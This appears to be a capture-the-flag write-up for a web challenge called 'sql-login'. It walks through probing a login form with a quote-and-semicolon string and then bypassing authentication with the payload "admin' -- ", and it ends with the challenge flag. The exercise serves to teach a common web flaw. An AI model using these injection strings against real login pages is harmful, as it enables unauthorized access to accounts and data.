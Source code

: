 # sql-login:
## Description:
On this web page we are presented with only a login terminal and the text

---

Welcome to my first web page!
Only administrators are allowed to see the secrets of this web page

---

The name of this task hints towards SQL injection so we will start by checking if the web page is vulnerable to SQL injections. By typing ``'";`` in the username field and pressing enter we get the following error code: 
```
Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"; ' AND password = 'dwd'' at line 1 in /var/www/html/login.php:41 Stack trace: #0 /var/www/html/login.php(41): mysqli_query(Object(mysqli), 'SELECT * FROM U...') #1 {main} thrown in /var/www/html/login.php on line 41
``` 

We now know SQL injection is possible and want to try to login.</br>
Since we are given the information that only administrators are allowed to see the secrets of the page we have to try and login as an administrator. Knowing the username of the administrator is not always easy, however guessing *admin* is a good place to begin. Since we do not know the password we need to somehow make the SQL query ignore the password field. This can be done in many ways, but by commenting out everthing after the username is a simple solution. We therefore type in the following:
```
username: admin' -- 
password: whatever
```
(make sure to have a space after the last *-* in the username)
Which will result in the following SQL query:
```sql 
SELECT * FROM Users WHERE username = 'admin' --  AND password = 'whatever'
```

And we will end up with the flag displayed on the web page
```
KID20{sql_inj3cti0n_i5_alw4ys_fun}
```
